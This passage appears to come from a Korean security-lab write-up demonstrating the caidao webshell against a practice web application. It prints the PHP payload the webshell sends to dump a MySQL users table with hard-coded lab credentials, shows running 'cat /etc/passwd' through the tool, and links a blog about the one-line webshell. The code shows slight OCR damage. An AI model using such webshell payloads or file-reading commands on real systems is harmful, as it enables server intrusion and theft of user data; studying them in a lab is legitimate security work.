       @ini_set("display_errors", "0");
      @set_time_limit(0);
      if (PHP_VERSION < '5.3.0') {
          @set_magic_quotes_runtime(0);
      };
      echo("X@Y");
      $hst = 'localhost';
      $usr = 'bricks';
      $pwd = 'bricks';
      $dbn = 'bricks';
      $sql = 'SELECT * FROM `users` ORDER BY 1 DESC LIMIT 0,20';
      $T = mysqli_connect($hst, $usr, $pwd, $dbn);
      if (mysqli_connect_errno($T)) {
            echo "ERROR:// ".mysqli_connect_error();
      } else {
          $q = mysqli_query($T, $sql);
          if ($q) {
              $k = 0;
              while ($finfo = @mysqli_fetch_field($q)) {
                  echo $finfo - > name.
                  "\t|\t";
                  $k++;
              }
              if ($k > 0) {
                  echo "\r\n";
                  while ($rs = @mysqli_fetch_row($q)) {
                      for ($c = 0; $c < $k; $c++) {
                          echo $rs[$c].
                          "\t|\t";
                      }
                      echo "\r\n";
                  }
              } else {
                  echo "Result\t|\t\r\nExecute Successfully!\t|\t\r\n";
              }
          } else {
              echo "Result\t|\t\r\nERROR: ".mysqli_error($T).
              "\t|\t\r\n";
          }
          mysqli_close($T);
      };
      echo("X@Y");
      die();

3. cat /etc/passwd 명령어 입력

![image](https://github.com/ICTIS-Cert-System-Project/ICTIS-Cert-System/assets/164521627/91c2da3e-2ef7-4c1f-a10b-d4b3112894c3)

< caidao 툴에서 cat /etc/passwd 명령어 결과값 >

![image](https://github.com/ICTIS-Cert-System-Project/ICTIS-Cert-System/assets/164521627/cb9f5f8d-20f7-4544-af2e-71d4a7a827a9)


[koromoonlink]: https://koromoon.blogspot.com/2020/02/caidao-20160620-one-line-webshell.html "Go koromoon"